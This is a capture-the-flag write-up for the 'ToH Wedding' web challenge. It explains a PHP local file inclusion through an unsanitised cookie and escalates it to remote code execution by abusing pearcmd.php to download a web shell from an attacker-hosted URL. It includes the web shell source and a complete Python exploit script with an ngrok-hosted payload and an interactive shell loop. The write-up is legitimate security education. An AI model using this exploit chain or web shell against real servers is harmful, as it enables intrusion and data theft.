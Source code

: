 # ToH Wedding<br><small style="color: #888;font-size: 20px;">writeup @ ToH CTF 2025</small>
<span style="background-color: #121212; padding: 4px; border-radius: 3px; margin-right: 2px;">Category: `web`</span> <span style="background-color: #121212; padding: 4px; border-radius: 3px; margin-right: 2px;">Author: [`Ricy`](https://github.com/riccardosarro)</span> <span style="background-color: #121212; padding: 4px; border-radius: 3px;">Solves: `0`</span>
> You have been invited to the wedding of **Io_no** and **MrIndeciso**, our beloved ToH couple and masters of libdebug development. Rejoice and celebrate with us, and don't forget to RSVP!

## Index
1. [TL;DR](#tldr)
2. [Source code](#source-code)
3. [Exploitation](#exploitation)
4. [Exploit script](#exploit-script)

<hr/>

<span id="tldr"></span>

### 1. `TL;DR` 
The challenge is vulnerable to a Local File Inclusion (**LFI**) attack, due to cookies not being sanitized, and an unsafe use of the `include` statement. By exploiting the file `pearcmd.php`, present in the every php server by default, we can download a file from a remote server and then have **RCE**.

<span id="source-code"></span>

## 2. Source code
You find provided a PHP application that handles dummy RSVPs. The flag is stored in the `rsvp_X.csv` file, which is technically accessible to everyone but since `X` is uniformly randomly generated and thus not predictable, hence you cannot access it directly. 

There is something funny with the `lang.php` file:

```php
// lang.php
1:  <?php
2:  session_start();
3:  
4:  if (isset($_GET['lang'])) {
5:    $lang = $_GET['lang'];
6:    // we don't trust the GET parameter, comes from the user
7:    if ($lang != 'en' && $lang != 'it') {
8:      // default if lang is not valid, is italian
9:      $lang = 'it';
10:   }
11:   // Register the session and set the cookie
12:   $_SESSION['lang'] = $lang;
13:   setcookie('lang', $lang, time() + (3600 * 24 * 30));
14: } else if (isset($_SESSION['lang'])) {
15:   $lang = $_SESSION['lang'];
16: } else if (isset($_COOKIE['lang'])) {
17:   // cookie is safe, we set it ourself
18:   $lang = $_COOKIE['lang'];
19: } else {
20:   // default language is browser language
21:   $lang = substr($_SERVER['HTTP_ACCEPT_LANGUAGE'], 0, 2);
22:   if ($lang != 'en' && $lang != 'it') {
23:     // default if browser is not valid, is italian
24:     $lang = 'it';
25:   }
26: }
27: 
28: // include the language file
29: include 'lang/' . $lang . '.php';
30: ?>
```

In **lines 4:26** we can see that even though we sanitize the `lang` parameter when coming from the GET request, we do not sanitize it when it comes from the **session** or **cookie**. While we can't control the session in this case, **cookies are controlled by the user**, so we shouldn't trust them.

>Note that if the server already set the session for us, we cannot overwrite it with a cookie, so we need to clear the session first and then set the cookie before sending the request to the server.

Something else that might catch your attention is how we include the language file in **line 29**. The `include` statement is vulnerable to [Local File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal) attacks, which means that we can include any file on the server, as long as we can control the `lang` variable, which in this case is controlled by the user through the cookie.

We are though limited by the extension of the file, which must be `.php`, but we can still include any file in the server that ends with `.php`.

<span id="exploitation"></span>

## 3. Exploitation
As explained in this [guide](https://blog.csdn.net/rfrder/article/details/121042290), PHP by default comes with the `pearcmd.php` file, which is a command line interface for the PEAR package manager. This file is usually located in the `/usr/local/lib/php/` directory, but it can vary depending on the system. And it can be used to execute arbitrary commands if we can execute it and pass it to it arguments.

In PHP, it happens something funny when we pass arguments using the url query string, for example:

```
http://example.com/pearcmd.php?abc+abc
```

This will load the array `["abc", "abc"]` of arguments, which will be passed to the `$_SERVER['argv']` variable.

Thus, we can use this to execute arbitrary commands by including the `pearcmd.php` file and passing it the command we want to execute as an argument.

For instance, a way to do this is to set the `lang` cookie to `../../../../usr/local/lib/php/pearcmd`, this will include the `pearcmd.php` file in the current page, and then we can use query parameters: `/?&+install+-R+/+{webhook_url}/s.php` to inject the `$_SERVER['argv']` variable.

This will execute the `pearcmd.php` file with the `install -R / {webhook_url}/s.php` arguments, which will download the `s.php` file from the webhook URL. 

By default, these files will be saved in the `/tmp/pear/download/` directory, so we can then include it again using the cookie `lang` set to `../../../../tmp/pear/download/s`.

Finally, we need to host the `s.php` file on a server that we control, allowing us to execute arbitrary PHP code on the server. One way to do this is to create a simple PHP web shell in the `s.php` file, for example:

```php
<?php
if (isset($_GET['cmd'])) {
  system($_GET['cmd']);
}
?>
```

This will allow us to execute arbitrary commands on the server by visiting the URL `https://tohwedding.ctf.towerofhanoi.it/?cmd=ls` when the cookie `lang` is set to `../../../../tmp/pear/download/s`.

and thus we can read the flag from the `rsvp_X.csv` file by either executing the command `cat rsvp_*`, or by just leaking the file name with the `ls` command and then accessing it directly with the URL `https://tohwedding.ctf.towerofhanoi.it/rsvp_X.csv`.

Hope you had fun! 😊

<span id="exploit-script"></span>

## 4. Exploit script
```python
import pyngrok.ngrok
import requests
import urllib.parse
import re
from pyngrok import ngrok
from flask import Flask, Response
from threading import Thread

app = Flask(__name__)

import random
def random_hex(length=8):
    """Generate a random hexadecimal string of specified length."""
    return ''.join(random.choice('0123456789abcdef') for _ in range(length))

rndhex = random_hex()

app_path = f"/s{rndhex}.php"

@app.route(app_path)
def revshell():
  php_code = """<?php
  if (isset($_GET['cmd'])) {
      $cmd = $_GET['cmd'];
      echo "<pre>" . shell_exec($cmd) . "</pre>";
  } else {
      echo "No command provided.";
  }
?>"""
  return Response(php_code, mimetype='application/x-httpd-php')


s = requests.Session()
flag_format = "toh{[^}]+}"

# host a s.php file in repourl
ngrok_tunnel = ngrok.connect(5000)
webhook_url = ngrok_tunnel.public_url

# challenge url
baseurl = "http://localhost:8080"
baseurl = "https://tohwedding.ctf.towerofhanoi.it"

def lfi2download():
  url = f"{baseurl}/?&+install+-R+/+{webhook_url}/s{rndhex}.php"
  s.cookies.set("lang", "../../../../usr/local/lib/php/pearcmd")
  r = s.get(url)
  print(r.text)

def trigger_rce(cmd):
  url = f"{baseurl}/?cmd={urllib.parse.quote(cmd)}"
  s.cookies.set("lang", f"../../../../tmp/pear/download/s{rndhex}")
  r = s.get(url)
  text = r.text.split("<!DOCTYPE")[0]
  print(text)
  return text

def interactive_shell():
  while True:
    cmd = input("$> ")
    if cmd.lower() == "exit":
      break
    trigger_rce(cmd)

def get_flag():
  text = trigger_rce("cat rsvp_*")
  print(text)
  flag = re.search(flag_format, text)
  if flag:
    print(flag.group(0))
  else:
    print("[!] No flag found.")

def main():
  lfi2download()
  get_flag()
  interactive_shell()
  

if __name__ == "__main__":
  Thread(target=app.run, kwargs={'host': '0.0.0.0', 'port': 5000}, daemon=True).start()
  main()
```
